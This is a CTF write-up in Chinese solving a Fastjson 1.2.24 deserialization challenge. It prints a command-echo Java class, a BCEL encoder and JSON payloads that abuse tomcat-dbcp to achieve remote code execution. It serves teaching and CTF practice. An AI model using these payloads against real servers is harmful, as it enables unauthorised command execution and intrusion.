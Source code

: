 ```yaml
---
title: 记一次CTF出题之FastjsonBCEL_WP篇
date: 2024-03-18 18:53:00 +0800
img_path: /
categories: [CTF, CTF出题记录]
tags: [CTF, CTF出题记录]  
---
```




# WEB-FastjsonBCEL

## 一、查看题目信息

题目给出一个jar包，反编译后查看`Controller`层内容如下：

![image-20240318182129668](assets/image-20240318182129668.png)

`/parse`路由下存在`FastJson`解析可能存在反序列化漏洞。



## 二、题目分析

查看`pom.xml`文件

![image-20240318182330944](assets/image-20240318182330944.png)

注意到存在`tomcat-dbcp`依赖和`fastjson`依赖，且版本分别为`9.0.8`、 `1.2.24`。所以可以使用`FastJson`借助`tomcat-dbcp`实现BCEL字节码加载的方式。

还是以`BCEL`打回显为目的，恶意类如下：

```java
package org.example;

import java.lang.reflect.Method;
import java.util.Scanner;

public class SpringEcho {
    static {
        try {
            Class v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method v1 = v0.getMethod("getRequestAttributes");
            Object v2 = v1.invoke(null);
            v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            v1 = v0.getMethod("getResponse");
            Method v3 = v0.getMethod("getRequest");
            Object v4 = v1.invoke(v2);
            Object v5 = v3.invoke(v2);
            Method v6 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method v7 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            v7.setAccessible(true);
            v6.setAccessible(true);
            Object v8 = v6.invoke(v4);
            String v9 = (String) v7.invoke(v5,"cmd");
            String[] v10 = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")){
                v10[0] = "cmd";
                v10[1] = "/c";
            }else {
                v10[0] = "/bin/sh";
                v10[1] = "-c";
            }
            v10[2] = v9;
            v8.getClass().getDeclaredMethod("println",String.class).invoke(v8,(new Scanner(Runtime.getRuntime().exec(v10).getInputStream())).useDelimiter("\\A").next());
            v8.getClass().getDeclaredMethod("flush").invoke(v8);
            v8.getClass().getDeclaredMethod("clone").invoke(v8);
        } catch (Exception var11) {
            var11.getStackTrace();
        }
    }
}

```

生成BCEL编码`payload`：

```java
package org.example;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class Bcel {

    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(SpringEcho.class);
        String code = "$$BCEL$$"+Utility.encode(javaClass.getBytes(),true);
        System.out.println(code);
        //new ClassLoader().loadClass(code).newInstance();
    }
}
```

因为漏洞触发点为`JSONObject.parse(jsonString)`所以最终`payload`形式如下：

```json
{
    {
        "@type": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$A$xxxxxxxxxxxx"
        }
    }: "x"
}
```

如果是`parseObject()`的形式，`payload`也可以如下:

```json
{
        "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
        "driverClassLoader": {
            "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$xxxxxxxxxxxx"
}
```



## 三、漏洞利用

生成拼接好`payload`传入：

![image-20240318183625514](assets/image-20240318183625514.png)